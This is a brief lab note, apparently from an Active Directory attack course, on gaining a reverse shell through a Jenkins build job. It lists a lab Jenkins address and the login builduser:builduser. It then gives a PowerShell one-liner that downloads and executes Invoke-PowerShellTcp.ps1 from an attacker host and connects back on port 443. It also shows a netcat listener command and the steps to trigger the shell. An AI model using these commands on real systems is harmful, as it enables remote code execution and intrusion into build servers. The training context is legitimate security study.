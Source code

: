 reversehell for jenkins build:
in this lab, jenkins ip: http://172.16.3.11:8080
builduser:builduser
```
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
```

start listner on powershell 
```
cd C:\AD\Tools
```
```
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
```

host reverse shell on hfs.
press build.
